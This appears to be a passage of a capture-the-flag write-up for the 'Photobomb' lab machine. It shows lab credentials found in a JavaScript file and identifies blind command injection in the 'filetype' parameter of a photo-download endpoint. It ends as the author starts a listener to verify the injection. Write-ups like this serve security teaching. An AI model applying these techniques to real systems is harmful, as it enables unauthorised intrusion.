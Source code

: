- `/printer` endpoint:

  - Login Needed

![Image alt](/images/Pasted-image-20221215062312.png)

- From the `photbomb.js`:
  - We can find valide credentials as the following message state:

```javascript
// Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me

document
  .getElementsByClassName("creds")[0]
  .setAttribute("href", "http://pH0t0:b0Mb!@photobomb.htb/printer");

// Username: pH0t0
// Password: b0Mb!
```

- After login to the `/printer`:

![Image alt](/images/Pasted-image-20221215063041.png)

- You can here choose a photo to download, the photo's quality, the photo's type (png or jpg) and then click the download button
- Let's fire up burpsuite and intercept this request\

![Image alt](/images/Pasted-image-20221215063530.png)

- The Download HTTP requets:

![Image alt](/images/Pasted-image-20221215064122.png)

- After Anlysing the web application:

  - The web application does not use a database. Photos are hard-coded inside the html code
  - The Web application performs image conversion behind the scene from jpg to png - based on the `filetype` parameter

- If we submit an unknown filetype, we will get the following error:

![Image alt](/images/Pasted-image-20221215071935.png)

- I tried arbitray files from the server but i get the following error `Invalid photo.`
- As we said before the web application performs some kind of conversion, so i decided to test for command injection vulnerability.
- I tested the 3 parameters. But, only the `filetype` was injectable with a blind command injection.

### Verifying the blind command injection vulnerability:

- Start a local http server:

```bash
# Terminal 1
goku@exploitation:~$ python -m http.server 8088
Serving HTTP on 0.0.0.0 port 8088 (http://0.0.0.0:8088/) ...
```
